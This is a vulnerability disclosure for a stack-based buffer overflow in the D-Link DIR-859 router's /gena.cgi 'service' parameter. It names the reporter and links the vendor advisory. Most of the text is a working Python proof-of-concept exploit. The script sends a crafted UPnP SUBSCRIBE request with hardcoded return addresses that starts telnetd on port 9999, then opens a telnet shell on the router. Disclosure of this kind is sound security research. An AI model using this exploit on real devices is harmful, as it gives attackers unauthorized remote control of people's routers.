



Vendor of the products:　D-link

Reported by: 　　　　　 chunkl.hit@gmail.com

Affected products:　　　DIR-859

Vendor Homepage:       https://www.dlink.com/    

Vendor Advisory:       https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10267

# Overview
The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the D-Link DIR-859 Wi-Fi router firmware v1.05. In the genacgi_main function of the cgibin program, the sprintf method directly uses the service parameter from /gena.cgi. The attackers can construct a payload to carry out arbitrary code attacks.

# Vul Details

# Code in genacgi_main:

# Poc
    from pwn import *
    import socket
    import os
    from time import sleep

    def httpSUB(server, port, shell_file):
        print('\n[*] Connection {host}:{port}').format(host=server, port=port)
        con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
        request += "Host: " + str(server) + str(port) + "\n"
        request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
        request += "NT: upnp:event\n"
        request += "CONTENT-TYPE: application/x-www-form-urlencoded"+"a"*0x120+"\n"
        request += "Timeout: Second-1800\n"
        request += "Accept-Encoding: gzip, deflate\n"
        request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
        sleep(1)
        print('[*] Sending Payload')
        con.connect((socket.gethostbyname(server),port))
        con.send(request)
        results = con.recv(4096)
        sleep(1)
        print('[*] Running Telnetd Service')
        sleep(1)
        print('[*] Opening Telnet Connection\n')
        sleep(2)
        os.system('telnet ' + str(server) + ' 9999')

    serverInput = "192.168.0.1"
    portInput = 49152
    httpSUB(serverInput, portInput, "a"*0xAA+p32(0xc068FF7F)+"a"*4+p32(0xD0A2B42A)+p32(0x14D9B22A)+"telnetd -p 9999;a")

